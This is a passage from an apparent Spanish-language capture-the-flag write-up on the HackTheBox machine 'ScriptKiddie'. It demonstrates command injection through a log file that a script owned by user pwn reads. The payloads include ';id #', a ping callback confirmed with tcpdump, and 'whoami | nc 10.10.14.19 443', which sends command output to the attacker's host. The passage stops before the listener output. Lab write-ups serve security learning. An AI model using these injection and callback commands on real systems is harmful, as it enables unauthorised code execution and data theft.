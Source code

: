 ¿Y si inyectaramos un comando?. Haciendo pruebas en local parece que doy con una estructura que parece funcionar:

```sh
❯ echo "Hola Paco 10.10.14.19 ;id #" > prueba2
❯ cat prueba2 | cut -d' ' -f3- | sort -u | while read ip; do sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null"; done
Failed to open normal output file recon/10.10.14.19 for writing: No such file or directory (2)
uid=0(root) gid=0(root) grupos=0(root)

# El ; es para aislar lo siguiente (el comando) y la almohadilla es para comentar todo lo de después.
```

Ahora bien, si inyectamos el comando ¿quién lo ejecuta?. Lo podríamos saber con la herramienta pspy por ejemplo, entre otras formas, pero todo parece indicar que lo ejecutaría el propietario, que es **pwn**:

```sh
kid@scriptkiddie:/home$ ls -l pwn/scanlosers.sh
-rwxrwxr-- 1 pwn pwn 250 Jan 28  2021 pwn/scanlosers.sh
```

Podemos pensar en hacer lo mismo en la máquina víctima pero habría que cambiar de comando, porque el output del **id** no lo tendríamos porque ver, es un comando que se ejecuta en segundo plano digamos. Podríamos lanzarnos un ping a nuestra IP, eso si podríamos verlo:

```sh
# En local me pongo en escucha:
❯ sudo tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

En remoto -box objetivo-:

```sh
kid@scriptkiddie:~/logs$ echo "Hola Paco 10.10.14.19 ;ping -c 1 10.10.14.19 #" > hackers
kid@scriptkiddie:~/logs$ 
```

Y parece que funciona:

```sh
❯ sudo tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
02:14:09.482671 IP 10.10.10.226 > 10.10.14.19: ICMP echo request, id 2, seq 1, length 64
02:14:09.482685 IP 10.10.14.19 > 10.10.10.226: ICMP echo reply, id 2, seq 1, length 64
```

Tenemos RCE esta vez con el usuario pwn, al menos creo que es ese usuario. Voy a comprobarlo:

```sh
kid@scriptkiddie:~/logs$ echo "Hola Paco 10.10.14.19 ;whoami | nc 10.10.14.19 443 #" > hackers
```

Y en local escuchando con nc:
